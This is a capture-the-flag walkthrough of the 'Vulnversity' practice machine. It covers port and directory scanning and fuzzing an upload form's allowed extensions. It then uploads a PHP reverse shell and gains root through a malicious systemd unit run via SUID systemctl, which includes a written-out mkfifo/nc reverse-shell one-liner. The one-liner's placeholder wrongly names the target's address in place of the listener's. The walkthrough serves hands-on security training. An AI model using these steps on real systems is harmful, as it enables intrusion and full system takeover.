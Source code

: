 Vulnversity
===========

Vulnversity is a nice straightforward CTF that emulates basic know-how of getting access to a system and then escalating your priviledge. Quite enjoyable to say the least, just needs you to understand some underlying code.

## Enumeration

Lets start with an nmap scan of the target IP, which will look something like this:

```vim
nmap -sV -Pn -v <TARGET_IP>
```

![Image](images/1.png)

We see that we have 6 ports open, where `http-proxy` and `http` seem interesting. Open the target IP on your browser like this: `<TARGET_IP>:3333`

Next, we can work on a gobuster scan on this webpage, which a command that looks something like this:

```vim
gobuster dir -u http://<TARGET_IP>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```
(Note: You can make this faster by using the `-t` option. Personally, I use `-t 40` but you can go beyond if your PC can take it)

We see that we get the following hits:
```
/images
/index.html
/css
/js
/fonts
/internal
```
Other than the last one, everything else seems pretty standard. Lets check out `/internal` first:

![Image](images/2.png)

## Exploit

Upload forms generally are an attack vector that we can use to use the Unrestricted File Upload exploit (As stated by OWASP)

When you try to upload a file, you will be an "Extension not allowed" error. This means that we have to fuzz this upload form to see which extension can be uploaded. A wordlist you can use for this can be found here: https://github.com/xmendez/wfuzz/blob/master/wordlist/general/extensions_common.txt

A good way to fuzz upload forms, is through BurpSuite, we can capture the upload form packet and use its Intruder mode to bruteforce which extension works. Firstly, Start BurpSuite, make a simple `.txt` file (mine is called `a.txt`) and upload it. Before clicking Submit, switch on Intercept in Proxy mode to capture the packet and then click Submit.

Your Proxy tab should look like this:

![Image](images/3.png)

Right-click and send the packet to Intruder, and add your target to look something like this:

![Image](images/4.png)

Use the wordlist I provided above as the payload and we can start the attack. (Make sure to disable URL encode in the options tab)

Once that is concluded, we can see in the below picture that only `.phtml` gets accepted:

![Image](images/5.png)

`.phtml` is a file extension that we can use to write PHP code. We can make a reverse shell payload in PHP and try to execute it on the website. You can get a PHP payload from this website and use the .phtml extension on it: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php (Replace the IP and port in the above script and save it)

We have a reverse shell payload that we can upload to the website, so we can go ahead and upload it, start a listener with the following command:
```vim
nc -lvnp <PORT>
```
and execute the reverse shell file by going to this webpage: `http://<TARGET_IP>:3333/internal/uploads/FILE_YOU_UPLOADED`

On your listener, we can see that we have recieved a reverse shell. I like to use the following command to make my reverse shell a little more readable:
```vim
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Priv-Esc

On typing `ls`, we can see that we are in the `/` directory. From here on, we can explore the home directory, find the user `bill` and the user flag in: `/home/bill/user.txt`

Here on out, we need to escalate our priviledge, I tried `sudo -l` but it asks a sudo password and we don't have that, so I try the next best thing, SUID executables. We can find all the SUID files through the following command:
```vim
find . -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

I then used this website: https://gtfobins.github.io/ to see if I can find any existing SUID vulnerabilities. After looking through the whole list, you find that `systemctl` can be exploited if it has SUID root permission. You can read about it here: https://gtfobins.github.io/gtfobins/systemctl/#suid

```vim
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The above code essentially means that we can execute the `id` command and the output will be displayed at `/tmp/output`. Once executed, you can see that the ID is of the root user. This tells us that if we can get a reverse shell from this command, it will be the root reverse shell. I looked for a couple reverse shells and found this one to work the best:

```vim
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f
```

This works best because it is small and doesn't need any quotation marks (They mess up the SUID exploit).

So, your SUID exploit will look like this:

```vim
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Start another listener on a different port using the `nc -lvnp PORT` command and execute the above exploit. When you check on your listener, you will be having a reverse shell. You can find the root flag in: `/root/root.txt`
